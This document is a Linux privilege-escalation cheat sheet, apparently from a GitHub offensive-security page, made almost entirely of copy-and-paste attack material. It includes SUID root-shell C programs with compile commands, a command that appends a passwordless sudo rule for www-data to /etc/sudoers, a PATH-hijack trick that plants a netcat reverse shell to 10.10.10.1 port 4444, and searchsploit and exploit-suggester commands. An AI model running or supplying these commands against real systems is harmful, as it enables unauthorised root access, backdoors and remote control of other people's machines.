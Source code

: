 -   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
     
              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  

              Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file transfer)  
        
              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`
    
-   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on 
    port 4444.
    
         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit  

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
 
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`
